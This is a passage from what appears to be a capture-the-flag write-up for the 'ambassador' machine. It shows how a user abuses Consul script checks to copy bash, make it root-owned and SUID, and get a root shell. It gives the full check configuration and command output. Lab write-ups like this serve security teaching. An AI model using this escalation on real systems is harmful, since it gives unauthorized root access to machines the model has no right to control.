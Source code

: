 The results of the scripts are available using `journalctl`, which requires root to access. Still, after a few seconds, I’ll see `/tmp/0xdf-test` exists:

```

developer@ambassador:/etc/consul.d$ ls -l /tmp/0xdf-test
-rw-r--r-- 1 root root 0 Sep 14 17:25 /tmp/0xdf-test

```

#### Shell

To get a shell, I’ll update the check script file to include three checks:

```

checks = [
  {
    id = "0xdf-1"
    name = "copy bash"
    args = ["cp", "/bin/bash", "/tmp/0xdf"]
    interval = "60s"
  },
  {
    id = "0xdf-2"
    name = "make it root"
    args = ["/usr/bin/chown", "root:root", "/tmp/0xdf"]
    interval = "60s"
  },
  {
    id = "0xdf-3"
    name = "suid bash"
    args = ["/usr/bin/chmod", "4777", "/tmp/0xdf"]
    interval = "60s"
  }
]

```

This will copy `bash` to `/tmp/0xdf`, make sure it’s owned by root, and then make it SetUID. After reloading consul, the script runs, and it works:

```

developer@ambassador:~$ ls -l /tmp/0xdf
-rwsrwxrwx 1 root root 1183448 Sep 14 17:33 /tmp/0xdf

```

Running this (with `-p` to not drop privs) returns a root shell:

```

developer@ambassador:~$ /tmp/0xdf -p
0xdf-5.0#

```
